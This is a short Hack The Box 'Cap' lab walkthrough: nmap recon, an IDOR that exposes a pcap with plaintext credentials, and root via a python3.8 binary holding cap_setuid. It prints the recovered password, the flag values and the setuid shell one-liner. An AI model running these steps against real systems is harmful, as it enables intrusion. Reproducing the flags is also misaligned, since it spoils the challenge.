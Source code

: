 # Cap

---

IP = `10.10.10.245`

## Recon

### nmap

`nmap -sV 10.10.10.245 -oN nmap/initial`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```
http://10.10.10.245/

### Directory traversal

```
/data
/ip
/netstat
```

http://10.10.10.245/data/0

http://10.10.10.245/data/[id] is vulnerable is IDOR


## Initial foothold 

http://10.10.10.245/data/0

Download and analyze the (0.pcap) file
we got credentials!

why? - unencrypted credential passing

`nathan:Buck3tH4TF0RM3!`

**user.txt**
`afa1d32568ef836b10397127a86dbfef`

## Privilege Escalation

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
--SNIP--
```
[Linux Capabilities - privesc](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example)

`nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'`

**root.txt**
`947781d6c4b98b3d89ad4b997b017748`